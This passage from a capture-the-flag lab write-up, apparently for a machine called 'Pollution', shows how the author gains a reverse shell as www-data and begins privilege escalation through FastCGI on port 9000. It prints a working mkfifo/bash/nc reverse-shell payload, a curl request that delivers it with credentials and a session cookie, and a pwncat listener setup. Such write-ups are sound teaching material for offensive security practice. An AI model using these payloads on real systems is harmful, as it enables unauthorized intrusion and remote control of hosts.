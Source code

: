 In the response we see the output of the `id` command we ran! Now let's set up a reverse shell with [PwnCat](https://pypi.org/project/pwncat-cs/) and send a reverse shell payload.

```bash
# bryan@red_team (PwnCat)
listen -m linux -H 10.10.14.4 443
```
{:file="pwncat.log" .nolineno}
```bash
# bryan@red_team (bash)
cmd="rm /tmp/_;mkfifo /tmp/_;cat /tmp/_|bash -i 2>&1|nc $lhost 443>/tmp/_&"
curl "$vhost[2]/?page=$chain" -is -o- \
  -u "developers_group:r0cket" \
  -b "PHPSESSID=$session" \
  --data-urlencode "0=$cmd"
```
{:.nolineno}

We successfully pop a shell as _www-data_!

## Local Privilege Escalation

There seems to be a few interesting services listening exclusively on localhost, all of which are owned by users other than _www-data_.

```bash
# www-data@pollution (bash)
netstat -tpln | grep 127
```
{:.nolineno}
>
```
Proto  Recv-Q  Send-Q  Local Address       Foreign Address   State    PID/Program name
tcp         0       0  127.0.0.1:9000      0.0.0.0:*         LISTEN   -
tcp         0       0  127.0.0.1:3306      0.0.0.0:*         LISTEN   -
tcp         0       0  127.0.0.1:3000      0.0.0.0:*         LISTEN   -
```

We know that port **3306** is MySQL, and we suspect that port **3000** is related to a `node` process running as root. Port **9000** however, does not have an obvious service we can associate it with, but After a bit of research we discover that this is the default port number for PHP-FPM or FastCGI.

### FastCGI

We'll first just verify that FastCGI is running on port 9000 with `cgi-fcgi`.

```bash
# www-data@pollution (bash)
cgi-fcgi -bind -connect :9000 # Success
```
{:.nolineno}

#### Code Execution

Looking at [this guide on pentesting FastCGI](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi), we find out that we can execute code as the process owner using the `cgi-fcgi` utility with some special environment variables.

